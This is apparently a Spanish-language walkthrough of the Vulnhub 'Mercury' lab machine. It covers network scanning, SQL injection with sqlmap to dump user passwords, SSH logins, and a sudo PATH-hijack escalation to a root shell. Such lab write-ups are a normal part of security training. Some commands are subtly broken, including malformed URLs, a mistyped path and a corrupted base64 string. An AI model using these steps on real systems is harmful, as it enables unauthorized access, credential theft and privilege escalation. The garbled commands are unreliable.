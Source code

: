 # Informe vm Mercury-Vulnhub
A continuación, el walkthrough de la máquina virtual Mercury, del grupo Planets de Vulnhub, explicado paso a paso.
## Fase de reconocimiento 

Primero de todo, escaneamos la red local en busca de direcciones IP. Para ello usaremos el comando arp-scan sobre la interfaz de red en la que estemos trabajando: <br><br>
```
arp-scan -I eth3 --localnet --ignoredups
```
![Captura de pantalla 2024-01-23 180113](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/7410790a-b735-47ee-a640-2f05364c6852)

<br><br>
En mi caso, la IP de la máquina víctima es la 10.0.2.5. Le enviaremos un paquete para comprobar que está activa: <br><br>
```
ping -c1 10.0.2.5
```
<br>
Si se ha recibido el paquete podemos confirmar que nuestra máquina está activa.<br><br>

![Captura de pantalla 2024-01-23 180235](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d0ec0854-270f-4e5f-af51-eca55140a64f)

A continuación, realizaremos un escaneo de puertos, buscando cuales estan abiertos con nmap <br><br>
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.0.2.5 -oG allports
```
![Captura de pantalla 2024-01-23 183345](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/e4719d30-0384-4c9b-bff6-e6f762df49e6)
<br>

Como podemos comprobar, tiene abiertos los puertos 22 y 8080, que corresponden a ssh y http-proxy respectivamente. <br>
## Conexion e investigación de la máquina
Lo siguiente que haremos será conectarnos a la IP a través del puerto 8080 en un navegador. <br><br>

![Captura de pantalla 2024-01-23 183834](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/2415de39-a745-471f-89f9-276249a71a6f)
<br><br>

Vemos que nos aparece un mensaje, así que seguiremos investigando esta web. <br><br>

Lo siguiente que deberíamos hacer sería lanzar un Gobuster en busca de directorios en el servidor de la web. Pero antes de ello, iremos directamente a ver el robots.txt, a ver si ahí encontramos algo y nos podemos ahorrar el Gobuster. <br><br>

![Captura de pantalla 2024-01-23 185208](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/ad4a1645-07c3-460c-92e1-3267378ba98e)
<br><br>

Probaremos de usar el asterisco como directorio: <br><br>

![Captura de pantalla 2024-01-24 092445](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/b00d3310-a9cd-4f74-9aab-786979fe1ec2)
<br><br>

De lo que vemos en la web, lo más interesante son los 3 puntos que aparecen. Y si nos fijamos en el punto 3, tiene pinta de ser un directorio. Probaremos a ver. <br><br>
![Captura de pantalla 2024-01-24 093452](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/5390e909-9cb6-4d86-bc4e-cdaba241cc26)
<br><br>
Y llegamos a lo que aprece ser una web en desarrollo con 2 enlaces. El primero te lleva a datos sobre Mercurio, que puedes ir cambiando si cambias el número de la URL. Hay hasta 8 datos. El segundo enlace es una lista de cosas que hacer para la web. <br>
El siguiente paso será usar una herramienta llamada SQLmap, para que liste bbdd.<br><br>
```
sqlmap -u http.//10.0.2.5:8080/mercuryfacts/ --dbs --batch
```
![Imagen2](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/78754d50-e547-4a22-a04c-b489aba5320e)
<br><br>

El comando nos buscará posibles vulnerabilidades sql en el servidor de la web y también nos listará las bases de datos disponibles en dicho servidor. <br><br>
![Imagen3](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/078871b4-79f8-408e-ad58-2c5eb3a9236f)
<br><br>

Estas son las bases de datos encontradas en el servidor: information_schema y mercury. <br>
Una vez encontradas las bases de datos, explotaremos la que nos interesa, en nuestro caso, la mercury. A continuación, seguiremos usando sqlmap pero esta vez para extraer información de la base de datos mercury: <br><br>
```
sqlmap -u http.//10.0.2.5:8080/mercuryfacts/ -D mercury --dump-all --batch
```
![Imagen4](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/a2bc1efa-acff-4bfa-b168-e24555a23e5b)
<br><br>

Y hemos obtenido una lista de usuarios con sus respectivas contraseñas. Sabiendo que el puerto 22, correspondiente a ssh, está abierto, vamos a intentar explotar esta vulnerabilidad. Tras empezar a probar con cada usuario y contraseña, hemos tenido éxito con el usuario webmaster. <br><br>
```
ssh webmaster@10.0.2.5
```

![Imagen5](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9c681734-201f-43dc-9d72-ecabcfb608dd)
<br><br>

Como vemos, tenemos acceso con el usuario webmaster. <br><br>

![Imagen6](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d0979e8d-b046-444a-be3f-3c99fbb649f4)
<br><br>

A continuación, como hemos accedido como webmaster, listaremos los archivos y directorios en busca de algo interesante: <br><br>

![Imagen7](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/fcc207a5-4251-46bc-af88-830e929f3952)
<br><br>

Y hemos encontrado una flag. A continuación, seguiremos indagando en esta máquina en busca de más cosas. <br><br>
Veamos los derechos y privilegios del usuario con el que hemos accedido. <br><br>

![Imagen8](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/f328f7c3-e689-4e3b-b638-74004a3d080c)
<br><br>

Al parecer, el usuario con el que hemos accedido no tiene privilegios de root. Después de comprobar esto, veamos el directorio que aparecía además de la flag que hemos encontrado: <br><br>

![Imagen9](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9a38498e-ec54-4b02-bb44-492a12568a0b)
<br><br>

Veamos qué contiene el archivo notes.txt. <br><br>

![Imagen10](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/6c6e1cb2-4c8c-4a3e-bec8-6b1e1d268379)
<br><br>
Parece que son 2 cadenas de caracteres codificados, seguramente en base 64. Vamos a intentar traducirlos. <br><br> 
```
echo "bWVyY3VyewlzdGhlc2l6ZW9MC4wNTZFYXJ0aHMK" | base64 -d mercuryisthesizeof0.056Earths
```

![Imagen11](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/64bc5d5e-3a73-46fb-bedf-c8d108845b54)
<br><br>

Tras decodificarla podemos comprobar que era la contraseña para el usuario webmaster. Lo que nos indica que probablemente la otra sea la contraseña del linuxmaster. Decodifiquémosla entonces: <br><br>
```
echo "bWVyYзVyew1lYW5kaWFtZXRlcmlzNDg4MGttCg= base64 -d mercurymeandiameteris4880km
```

![Imagen12](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9d2d07cd-649c-4f1a-8b16-b11cdb578b49)
<br><br>

Efectivamente, obtenemos la contraseña de linuxmaster. A continuación, entraremos con estas credenciales. <br><br>
```
ssh linuxmaster@10.0.2.5
```
![Imagen13](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/640c4874-100a-4e88-9bc9-ea340c384aec)
<br><br>

Comprobamos qué derechos y privilegios tiene este usuario: <br><br>

![Imagen14](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/178edaf7-e645-4ee0-8c14-fa0be345860a)
<br><br>

Parece ser que tiene privilegios de root sobre /usr/bin/check_syslog.sh. Realizaremos a continuación una escalada de privilegios para obtener acceso como root. <br><br>
```
cat /usr/bin/check_syslog.sh
```
```
tail -n 10 /var/log/syslog
```
```
ln -s /usr/bin/vi tail
```
```
export PATH=$(pwd):$PATH
```
```
sudo --preserve-env=PATH /usr(bin/check_syslog.sh
```

![Imagen15](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d097a58d-c8f4-47a4-b94b-2d34d11f1741)
<br><br>

A continuación escribiríamos lo siguiente: <br>
```
:!/bin/bash
```
<br>
Y ya tendríamos acceso como root y podríamos encontrar la segunda y útlima flag de esta máquina: <br><br>

![Imagen16](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/0dafd5bd-445a-4c56-924d-c3eb5eb658cd) 
<br>

![Imagen17](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/14a1c3d7-f12a-402c-aeb7-b37a99bcc444)








